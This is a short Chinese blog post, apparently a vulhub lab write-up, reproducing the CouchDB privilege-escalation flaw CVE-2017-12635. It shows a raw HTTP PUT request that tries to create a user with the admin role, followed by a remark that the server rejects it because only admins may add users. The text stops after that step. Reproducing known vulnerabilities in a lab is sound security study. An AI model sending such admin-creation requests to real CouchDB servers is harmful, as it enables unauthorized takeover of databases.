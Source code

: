 ```yaml
---
layout: post
title: "vulhub漏洞复现"
date: 2019-6-10 20:49:43
author: co0ontty
categories: 漏洞复现 WEB ALL
tags: 漏洞复现 WEB ALL 
cover: 'https://i.loli.net/2019/06/10/5cfe32a6be6cf32080.png'
---
```


## Couchdb 垂直权限绕过漏洞（CVE-2017-12635）

`Path:couchdb/CVE-2017-12635`

### 漏洞复现：

#### 发送创建用户的请求包

```textile
PUT /_users/org.couchdb.user:username HTTP/1.1

Host: your-ip:5984

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Content-Type: application/json

Content-Length: 96

{

  "type": "user",

  "name": "username",

  "roles": ["_admin"],

  "password": "password"

}
```

服务器返回错误，仅允许admin用户添加用户
